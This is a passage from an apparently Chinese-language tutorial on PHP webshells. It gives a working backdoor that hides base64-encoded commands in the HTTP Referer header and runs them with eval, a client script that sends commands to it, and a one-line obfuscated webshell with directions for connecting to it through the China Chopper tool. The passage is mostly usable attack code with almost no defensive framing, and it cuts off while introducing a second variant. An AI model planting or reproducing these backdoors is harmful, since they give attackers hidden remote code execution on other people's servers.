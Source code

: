执行后当前目录生成c.php一句话木马，当传参a为eval时会报错木马生成失败，为assert时同样报错，但会生成木马，真可谓不可小视，简简单单的一句话，被延伸到这般应用。

## 5.层级请求，编码运行PHP后门

```php
<?php
//1.php
header('Content-type:text/html;charset=utf-8');
parse_str($_SERVER['HTTP_REFERER'], $a);
if(reset($a) == '10' && count($a) == 9) {
eval(base64_decode(str_replace(" ", "+", implode(array_slice($a, 6)))));
}
```



2.php

```php
<?php
//2.php
header('Content-type:text/html;charset=utf-8');
//要执行的代码
$code = <<<CODE
phpinfo();
CODE;
//进行base64编码
$code = base64_encode($code);
//构造referer字符串
$referer = "a=10&b=ab&c=34&d=re&e=32&f=km&g={$code}&h=&i=";
//后门url
$url = 'http://localhost/test1/1.php';
$ch = curl_init();
$options = array(
CURLOPT_URL => $url,
CURLOPT_HEADER => FALSE,
CURLOPT_RETURNTRANSFER => TRUE,
CURLOPT_REFERER => $referer
);
curl_setopt_array($ch, $options);
echo curl_exec($ch);
```

## 6.**三个变形的一句话PHP木马**

**第一个**

```php
<?php ($_=@$_GET[2]).@$_($_POST[1])?>
```

在菜刀里写http://site/1.php?2=assert密码是1

**第二个**
